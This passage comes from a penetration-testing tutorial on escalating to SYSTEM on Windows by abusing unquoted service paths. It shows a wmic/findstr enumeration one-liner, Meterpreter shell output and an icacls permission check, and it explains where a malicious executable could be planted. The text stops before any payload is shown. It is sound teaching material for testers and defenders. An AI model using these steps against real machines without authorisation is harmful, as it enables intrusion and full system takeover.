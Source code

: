 # Windows Privilege Escalation
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
## Windows Privilege Escalation Methods for Pentesters

January 18, 2017  Gokhan Sagoglu

Imagine that you have gotten a low-priv Meterpreter session on a Windows machine. Probably you’ll run ```getsystem``` to escalate your privileges. But what if it fails? Don’t panic. There are still some techniques you can try.

### Unquoted Service Paths

Basically, it is a vulnerability that occurs if a service executable path is not enclosed with quotation marks and contains space. To identify these unquoted services you can run this command on Windows Command Shell:
```wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """```
All services with unquoted executable paths will be listed:
```
meterpreter > shell
Process 4024 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
Vulnerable Service                            Vulnerable Service            C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe            Auto       
C:\Users\testuser\Desktop>
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:
```C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe```
It should be like this:
```“C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe”```
![unquoted path](../pictures/unquoted_regedit.png)
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
This vulnerability is caused by the “CreateProcess” function in Windows operating systems. If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM. But we should have necessary privileges on one of these folders. In order to check the permissions of a folder we can use built-in Windows tool, icals. Let’s check permissions for “C:\Program Files (x86)\Program Folder”.
```
meterpreter > shell
Process 1884 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Program Files (x86)\Program Folder>icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files (x86)\Program Folder"
C:\Program Files (x86)\Program Folder Everyone:(OI)(CI)(F)
                                      NT SERVICE\TrustedInstaller:(I)(F)
                                      NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                      NT AUTHORITY\SYSTEM:(I)(F)
                                      NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                      BUILTIN\Administrators:(I)(F)
